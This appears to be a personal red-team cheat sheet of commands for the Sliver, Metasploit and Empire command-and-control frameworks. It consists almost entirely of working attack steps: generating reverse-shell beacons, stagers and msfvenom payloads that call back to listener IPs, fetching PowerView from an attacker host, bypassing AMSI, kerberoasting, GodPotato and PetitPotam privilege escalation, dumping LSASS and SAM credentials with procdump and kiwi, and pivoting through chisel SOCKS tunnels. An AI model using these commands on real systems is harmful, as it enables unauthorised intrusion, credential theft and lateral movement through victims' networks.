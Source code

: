 - [Sliver](#sliver)
  - [General](#general)
  - [Enum](#enum)
    - [Nomal](#nomal)
    - [Domain](#domain)
  - [Privilege Escalation](#privilege-escalation)
  - [Collection](#collection)
  - [Lateral Move](#lateral-move)
  - [Shellcode create](#shellcode-create)
    - [donut](#donut)
- [Metasploit](#metasploit)
- [Empire](#empire)

# Sliver
## General
```bash
/opt/sliver/sliver-server_linux

## Listener
http -L 10.0.0.1 -l 8088
jobs

## implant beacon
generate beacon --http 10.10.15.144:8088 -N mybe
### beacon tasks
tasks
### go session
use ??
interactive

## implant shellcode 
### session
profiles new --http 10.0.0.1:8088 --format shellcode mypf
## stage-listener
stage-listener --url tcp://10.0.0.1:443 --profile mypf 
## stager
generate stager -b '00 0a cc' --lhost 10.0.0.1 --lport 443 --save stage.bin 
-f python

### beacon
generate beacon --http 10.10.14.62:8088 -N mybe.bin -f shellcode
```

## Enum
### Nomal
```bash
# Nomal
getprivs
seatbelt -- -group=all
sharpup -- audit

wget https://raw.githubusercontent.com/itm4n/PrivescCheck/master/PrivescCheck.ps1
sharpsh -- '-u http://10.10.14.36/PowerView.ps1,http://10.10.14.36/PrivescCheck.ps1 -c get-netlocalgroup,invoke-privesccheck'
```
### Domain
```bash
# Nomal
c2tc-domaininfo
sharpview -- Get-Domain
sharpview --in-process --amsi-bypass -- Get-Domain

#bloodhound
sharp-hound-4 -- -c All -d my.local --domainController 172.16.1.15 --zipfilename myhound

# ASREP
rubeus -- asreproast /format:hashcat /nowrap
# kerberoast
## enum
delegationbof 6 child.my.local
## attack
### BOF
#### https://github.com/outflanknl/C2-Tool-Collection/blob/e371a38c717edaf1650923575ab33bee0dd3e0ee/BOF/Kerberoast/TicketToHashcat.py
c2tc-kerberoast roast alice
### Rubeus
rubeus -- kerberoast /format:hashcat /nowrap
inline-execute-assembly /usr/share/windows-binaries/Ghostpack-CompiledBinaries/Rubeus.exe 'kerberoast /user:testuser /format:hashcat /nowrap'

# ADCS
certify -- find 
# Forest
execute -o powershell $Forest = [System.DirectoryServices.ActiveDirectory.Forest]::GetCurrentForest(); $Forest.Domains
```

## Privilege Escalation
```bash
# GotPotato
execute-assembly /usr/share/windows-binaries/GodPotato-NET4.exe -cmd ''
## in current process
inline-execute-assembly

# PetitPotam
c2tc-petitpotam own target 
```

## Collection
```bash
# Nomal
##  NT AUTHORITY\SYSTEM
hashdump

# procdump
ps -e lsass
procdump --pid ??? /tmp/lsass.dmp
```

## Lateral Move
```bash
# chisel
https://github.com/jpillora/chisel/releases
# Reverse 
./chisel_1.9.0_linux_amd64 server -p 2345 --socks5 --reverse
## sliver
chisel client --max-retry-count 2 10.0.0.1:2345 R:socks
## Rscoks
tail /etc/proxychains4.conf
# forward
./chisel_1.9.0_linux_amd64 server -p 1234
## sliver
chisel client --max-retry-count 2 10.10.15.165:2345 8444:10.10.15.165:4444 8080:10.10.15.165:80

# pivot
## session
### Open 172.16.1.11:9898 for sliver
ifconfig
pivots tcp --bind 172.16.1.11

# name pipe
pivots named-pipe --bind Etaks
## implant
generate --named-pipe 172.16.1.11/pipe/academy -N pipe_Etaks 

# token
make-token -u svc_sql -d child.my.local -p Pass123
```

## Shellcode create
### donut
```bash
# nomal shell
donut -i /usr/share/windows-binaries/GodPotato-NET4.exe -a 2 -b 2 -p '-cmd c:\temp\mybe.exe' -o potato.bin

# sliver
execute-shellcode -p pid potato.bin
```

# Metasploit
```bash
# hundler
msfvenom -p windows/meterpreter/reverse_tcp LHOST= LPORT=1234 -f exe -o shell.exe
## to base64 
base64 -w0 shell.exe 
# start handler
use multi/handler
## htm c2
use exploit/windows/misc/hta_server
# sessions
sessions -l
sessions -i 1

# exploit suggest
use post/multi/recon/local_exploit_suggester

# privesc 
getsystem
migrate 

load kiwi
creds_all
lsa_dump_sam

# Port Forwading
use multi/manage/autoroute

use auxiliary/server/socks_proxy
set SRVHOST 127.0.0.1
set VERSION 5
run -j
jobs

# other
lcd /home/kali/Downloads
lpwd
download 
upload
```

# Empire
```bash
# first
listeners
uselistener http

usestager windows_launcher_vbs
usestager windows_cmd_exec

agents
interact
```
